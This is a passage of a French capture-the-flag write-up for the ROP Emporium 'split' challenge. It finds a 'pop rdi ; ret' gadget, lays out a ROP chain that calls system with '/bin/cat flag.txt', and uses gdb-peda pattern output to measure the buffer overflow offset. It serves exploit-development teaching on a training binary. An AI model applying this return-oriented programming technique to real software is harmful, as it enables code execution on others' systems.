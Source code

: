 Le `pop rdi` :

~~~bash
root@kali:~/rop_emporium/split# ROPgadget --binary split | grep "rdi"
0x0000000000400883 : pop rdi ; ret

~~~

Nous allons ici utiliser la fonction `system` pour appeler la string `/bin/cat flag.txt`. 
Pour ce faire, nous devons mettre la chaîne `/bin/cat flag.txt` dans le registre `rdi`. 
Pourquoi `rdi` ? simplement parce qu'il s'agit du registre contenant le premier argument d'une fonction (cf ma cheat sheet).

Voici une représentation de la pile souhaitée : 

|valeur de bourrage|
|------------------|
|pop rdi           |
|/bin/cat flag.txt |
|system            |

Nous allons donc ici récupérer la valeur `/bin/cat flag.txt` et la placer dans `rdi` avec l'instruction `pop rdi ; ret`, 
puis lancer un appel a la fonction `system` pour exécuter le contenus de `rdi`. 

Déterminons maintenant la taille du bourrage nécessaire à créer un dépassement de tampon :

~~~bash
gdb-peda$ pattern_create 64
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH'
gdb-peda$ r
Starting program: /root/rop_emporium/split/split 
split by ROP Emporium
64bits

Contriving a reason to ask user for data...
> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffe070 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH\n")
RBX: 0x0 
RCX: 0xfbad2288 
RDX: 0x7fffffffe070 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH\n")
RSI: 0x7ffff7fab8d0 --> 0x0 
RDI: 0x7fffffffe071 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH\n")
RBP: 0x6141414541412941 ('A)AAEAAa')
RSP: 0x7fffffffe098 ("AA0AAFAAbAA1AAGAAcAA2AAH\n")
RIP: 0x400806 (<pwnme+81>:	ret)
R8 : 0x6022a1 --> 0x0 
R9 : 0x7ffff7fb0500 (0x00007ffff7fb0500)
R10: 0x602010 --> 0x0 
R11: 0x246 
R12: 0x400650 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffe180 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4007ff <pwnme+74>:	call   0x400620 <fgets@plt>
   0x400804 <pwnme+79>:	nop
   0x400805 <pwnme+80>:	leave  
=> 0x400806 <pwnme+81>:	ret    
   0x400807 <usefulFunction>:	push   rbp
~~~